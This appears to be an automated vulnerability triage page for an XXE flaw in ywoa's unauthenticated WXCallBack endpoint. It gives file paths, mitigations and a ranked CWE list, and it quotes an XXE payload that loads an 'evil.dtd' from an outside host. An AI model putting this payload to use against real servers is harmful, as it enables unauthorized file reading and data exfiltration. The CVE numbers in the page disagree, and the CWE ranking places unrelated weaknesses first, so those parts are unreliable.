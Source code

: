 ## Vulnerability Description
A vulnerability, which was classified as problematic, has been found in ywoa up to 2024.07.03. This issue affects the function extract of the file c-main/src/main/java/com/redmoon/weixin/aes/XMLParse.java of the component WXCallBack Interface. The manipulation leads to **xml external entity reference**. The attack may be initiated remotely. The exploit has been disclosed to the public and may be used. Upgrading to version 2024.07.04 is able to address this issue. It is recommended to upgrade the affected component.

### Vulnerability Description Key Phrases
- **weakness:** **xml external entity reference**
- **product:** ywoa
- **version:** up to 2024.07.03
- **component:** WXCallBack Interface

## CVE Reference Links Content Summary
## Analysis of CVE-2025-1225 Content

Based on the provided content, this relates to **CVE-2025-25589** (as noted in the document itself), and not CVE-2025-1225.  The content details an **Unauthorized XXE vulnerability** in the ywoa project (OA协同办公系统，流程专家（带有低代码开发平台的OA）) before version 2024.07.04.

Here's a breakdown of the vulnerability information extracted from the text:

**Root cause of vulnerability:**

*   The application parses XML data using `db.parse(is)` in `com.redmoon.weixin.aes.XMLParse.java:42` without proper restrictions.
*   The `/servlet/WXCallBack` path does not require permission verification (configured in `com.cloudweb.oa.config.WebSecurityConfig.java:189`).

**Weaknesses/vulnerabilities present:**

*   **XXE (XML External Entity) Injection:**  The lack of input validation when parsing XML allows for XXE attacks.
*   **Lack of Authorization:** The `/servlet/WXCallBack` endpoint is accessible without authentication.

**Impact of exploitation:**

*   **File Reading:**  The vulnerability can be exploited to read arbitrary files from the server's filesystem. The POC demonstrates reading `/Users/admin/Desktop/test/flag.txt`.
*   **Potential for Server-Side Request Forgery (SSRF):**  The use of external entities (via `http://`) suggests potential for SSRF, although the document focuses on file reading.

**Attack vectors:**

*   **HTTP POST request:**  An attacker sends a crafted XML payload in a POST request to `/oa/servlet/WXCallBack`.
*   The provided POC uses the following XML structure to trigger the XXE vulnerability:

```xml
<?xml version="1.0" encoding="utf-8"?><!DOCTYPE ANY [<!ENTITY % remote SYSTEM "http://172.16.13.19:1888/evil.dtd">%remote;%int;%send;]>
```

**Required attacker capabilities/position:**

*   **Network Access:** The attacker needs network access to the vulnerable `/oa/servlet/WXCallBack` endpoint.
*   **Ability to send crafted HTTP requests:** The attacker must be able to construct and send a malicious XML payload.
*   **Control over an external server:**  The attacker needs to host an `evil.dtd` file (or similar) to leverage external entity resolution.

**Mitigation or fix:**

*   The document states the vulnerability is fixed in versions **after 2024.07.04**.
*   Implement proper XML input validation and sanitization to prevent XXE attacks.
*   Enforce authorization checks for the `/servlet/WXCallBack` endpoint.
*   Disable external entity resolution in the XML parser.

**Additional Details (more detail than official CVE description):**

*   The document provides specific file paths and line numbers within the source code where the vulnerability exists.
*   It details the specific configuration that bypasses authorization.
*   It includes a complete POC (Proof of Concept) demonstrating the exploitation of the vulnerability, including the `evil.dtd` file content.
*   It mentions JDK version considerations for successful exploitation (specifically regarding file reading limitations).
*   It notes the need to set the `encodingAesKey` variable length to 43 bits to avoid errors during exploitation.

**Note:** This analysis is based solely on the provided text. It is important to consult the official CVE description and other security resources for a comprehensive understanding of the vulnerability.

## Retriever Results

### Top Combined Results

| Rank | CWE ID | Name | Abstraction | Usage  | Retrievers | Individual Scores |
|------|--------|------|-------------|-------|------------|-------------------|
| 1 | 79 | Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting') | Base | Allowed | sparse | 0.536 |
| 2 | 89 | Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') | Base | Allowed | sparse | 0.502 |
| 3 | 674 | Uncontrolled Recursion | Class | Allowed-with-Review | sparse | 0.457 |
| 4 | 705 | Incorrect Control Flow Scoping | Class | Allowed-with-Review | sparse | 0.456 |
| 5 | 611 | Improper Restriction of XML External Entity Reference | Base | Allowed | sparse | 0.455 |
| 6 | 1336 | Improper Neutralization of Special Elements Used in a Template Engine | Base | Allowed | sparse | 0.453 |
| 7 | 125 | Out-of-bounds Read | Base | Allowed | sparse | 0.443 |
| 8 | 22 | Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') | Base | Allowed | sparse | 0.443 |
| 9 | 776 | Improper Restriction of Recursive Entity References in DTDs ('XML Entity Expansion') | Base | Allowed | dense | 0.628 |
| 10 | 184 | Incomplete List of Disallowed Inputs | Base | Allowed | graph | 0.002 |



# Complete CWE Specifications

CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')

CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')

CWE-674: Uncontrolled Recursion

CWE-705: Incorrect Control Flow Scoping

CWE-611: Improper Restriction of XML External Entity Reference

CWE-1336: Improper Neutralization of Special Elements Used in a Template Engine

CWE-125: Out-of-bounds Read

CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')

CWE-776: Improper Restriction of Recursive Entity References in DTDs ('XML Entity Expansion')

CWE-184: Incomplete List of Disallowed Inputs